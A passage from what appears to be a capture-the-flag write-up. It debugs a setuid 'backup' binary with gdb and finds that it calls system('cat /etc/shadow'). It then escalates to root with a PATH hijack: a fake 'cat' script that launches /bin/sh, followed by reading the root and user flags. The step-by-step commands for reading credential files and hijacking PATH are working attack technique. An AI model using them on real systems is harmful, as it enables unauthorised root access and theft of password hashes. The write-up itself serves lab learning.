sshd:*:17288:0:99999:7:::
mitsos@LazyClown:~$
```

```sh
mitsos@LazyClown:~$ gdb ./backup -q
Reading symbols from ./backup...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x8048420
gdb-peda$ run
Starting program: /home/mitsos/backup
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0xb7fce000 --> 0x1abda8
ECX: 0x1c383031
EDX: 0xbffff724 --> 0xb7fce000 --> 0x1abda8
ESI: 0x0
EDI: 0x0
EBP: 0xbffff6f8 --> 0x0
ESP: 0xbffff6f8 --> 0x0
EIP: 0x8048420 (<main+3>:	and    esp,0xfffffff0)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048418 <frame_dummy+40>:	jmp    0x8048390 <register_tm_clones>
   0x804841d <main>:	push   ebp
   0x804841e <main+1>:	mov    ebp,esp
=> 0x8048420 <main+3>:	and    esp,0xfffffff0
   0x8048423 <main+6>:	sub    esp,0x10
   0x8048426 <main+9>:	mov    DWORD PTR [esp],0x80484d0
   0x804842d <main+16>:	call   0x80482f0 <system@plt>
   0x8048432 <main+21>:	mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0xbffff6f8 --> 0x0
0004| 0xbffff6fc --> 0xb7e3baf3 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
0008| 0xbffff700 --> 0x1
0012| 0xbffff704 --> 0xbffff794 --> 0xbffff8b8 ("/home/mitsos/backup")
0016| 0xbffff708 --> 0xbffff79c --> 0xbffff8cc ("XDG_SESSION_ID=1")
0020| 0xbffff70c --> 0xb7feccca (<call_init+26>:	add    ebx,0x12336)
0024| 0xbffff710 --> 0x1
0028| 0xbffff714 --> 0xbffff794 --> 0xbffff8b8 ("/home/mitsos/backup")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048420 in main ()
gdb-peda$ si
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0xb7fce000 --> 0x1abda8
ECX: 0x1c383031
EDX: 0xbffff724 --> 0xb7fce000 --> 0x1abda8
ESI: 0x0
EDI: 0x0
EBP: 0xbffff6f8 --> 0x0
ESP: 0xbffff6f0 --> 0x8048440 (<__libc_csu_init>:	push   ebp)
EIP: 0x8048423 (<main+6>:	sub    esp,0x10)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804841d <main>:	push   ebp
   0x804841e <main+1>:	mov    ebp,esp
   0x8048420 <main+3>:	and    esp,0xfffffff0
=> 0x8048423 <main+6>:	sub    esp,0x10
   0x8048426 <main+9>:	mov    DWORD PTR [esp],0x80484d0
   0x804842d <main+16>:	call   0x80482f0 <system@plt>
   0x8048432 <main+21>:	mov    eax,0x0
   0x8048437 <main+26>:	leave
[------------------------------------stack-------------------------------------]
0000| 0xbffff6f0 --> 0x8048440 (<__libc_csu_init>:	push   ebp)
0004| 0xbffff6f4 --> 0x0
0008| 0xbffff6f8 --> 0x0
0012| 0xbffff6fc --> 0xb7e3baf3 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
0016| 0xbffff700 --> 0x1
0020| 0xbffff704 --> 0xbffff794 --> 0xbffff8b8 ("/home/mitsos/backup")
0024| 0xbffff708 --> 0xbffff79c --> 0xbffff8cc ("XDG_SESSION_ID=1")
0028| 0xbffff70c --> 0xb7feccca (<call_init+26>:	add    ebx,0x12336)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048423 in main ()
gdb-peda$ si
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0xb7fce000 --> 0x1abda8
ECX: 0x1c383031
EDX: 0xbffff724 --> 0xb7fce000 --> 0x1abda8
ESI: 0x0
EDI: 0x0
EBP: 0xbffff6f8 --> 0x0
ESP: 0xbffff6e0 --> 0xb7fce3c4 --> 0xb7fcf1e0 --> 0x0
EIP: 0x8048426 (<main+9>:	mov    DWORD PTR [esp],0x80484d0)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804841e <main+1>:	mov    ebp,esp
   0x8048420 <main+3>:	and    esp,0xfffffff0
   0x8048423 <main+6>:	sub    esp,0x10
=> 0x8048426 <main+9>:	mov    DWORD PTR [esp],0x80484d0
   0x804842d <main+16>:	call   0x80482f0 <system@plt>
   0x8048432 <main+21>:	mov    eax,0x0
   0x8048437 <main+26>:	leave
   0x8048438 <main+27>:	ret
[------------------------------------stack-------------------------------------]
0000| 0xbffff6e0 --> 0xb7fce3c4 --> 0xb7fcf1e0 --> 0x0
0004| 0xbffff6e4 --> 0xb7fff000 --> 0x20f30
0008| 0xbffff6e8 --> 0x804844b (<__libc_csu_init+11>:	add    ebx,0x1bb5)
0012| 0xbffff6ec --> 0xb7fce000 --> 0x1abda8
0016| 0xbffff6f0 --> 0x8048440 (<__libc_csu_init>:	push   ebp)
0020| 0xbffff6f4 --> 0x0
0024| 0xbffff6f8 --> 0x0
0028| 0xbffff6fc --> 0xb7e3baf3 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x08048426 in main ()
gdb-peda$ x/s 0x80484d0
0x80484d0:	"cat /etc/shadow"
gdb-peda$ si
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0xb7fce000 --> 0x1abda8
ECX: 0x1c383031
EDX: 0xbffff724 --> 0xb7fce000 --> 0x1abda8
ESI: 0x0
EDI: 0x0
EBP: 0xbffff6f8 --> 0x0
ESP: 0xbffff6e0 --> 0x80484d0 ("cat /etc/shadow")
EIP: 0x804842d (<main+16>:	call   0x80482f0 <system@plt>)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048420 <main+3>:	and    esp,0xfffffff0
   0x8048423 <main+6>:	sub    esp,0x10
   0x8048426 <main+9>:	mov    DWORD PTR [esp],0x80484d0
=> 0x804842d <main+16>:	call   0x80482f0 <system@plt>
   0x8048432 <main+21>:	mov    eax,0x0
   0x8048437 <main+26>:	leave
   0x8048438 <main+27>:	ret
   0x8048439:	xchg   ax,ax
Guessed arguments:
arg[0]: 0x80484d0 ("cat /etc/shadow")
[------------------------------------stack-------------------------------------]
0000| 0xbffff6e0 --> 0x80484d0 ("cat /etc/shadow")
0004| 0xbffff6e4 --> 0xb7fff000 --> 0x20f30
0008| 0xbffff6e8 --> 0x804844b (<__libc_csu_init+11>:	add    ebx,0x1bb5)
0012| 0xbffff6ec --> 0xb7fce000 --> 0x1abda8
0016| 0xbffff6f0 --> 0x8048440 (<__libc_csu_init>:	push   ebp)
0020| 0xbffff6f4 --> 0x0
0024| 0xbffff6f8 --> 0x0
0028| 0xbffff6fc --> 0xb7e3baf3 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804842d in main ()
gdb-peda$ quit
mitsos@LazyClown:~$
```

###### Privilege Escalation using absolute path

```sh
mitsos@LazyClown:~$ which cat
/bin/cat
mitsos@LazyClown:~$
mitsos@LazyClown:~$ nano cat

Error reading /home/mitsos/.nano_history: Permission denied

Press Enter to continue starting nano.

mitsos@LazyClown:~$ cat cat
/bin/sh
mitsos@LazyClown:~$
```

```sh
mitsos@LazyClown:~$ ls -l cat
-rw-rw-r-- 1 mitsos mitsos 10 Jan 31 03:07 cat
mitsos@LazyClown:~$ chmod +x cat
mitsos@LazyClown:~$ ls -l cat
-rwxrwxr-x 1 mitsos mitsos 10 Jan 31 03:07 cat
mitsos@LazyClown:~$
```

```sh
mitsos@LazyClown:~$ export PATH=`pwd`:$PATH
mitsos@LazyClown:~$ echo $PATH
/home/mitsos:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
mitsos@LazyClown:~$
```

```sh
mitsos@LazyClown:~$ id
uid=1000(mitsos) gid=1000(mitsos) groups=1000(mitsos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
mitsos@LazyClown:~$
mitsos@LazyClown:~$ ./backup
# id
uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)
# cd /root
# ls -l
total 4
-r-------- 1 root root 33 May  3  2017 root.txt
# cat root.txt
# more root.txt
990b142c3cefd46a5e7d61f678d45515
#
```

```sh
mitsos@LazyClown:~$ cat user.txt
d558e7924bdfe31266ec96b007dc63fc
mitsos@LazyClown:~$
```
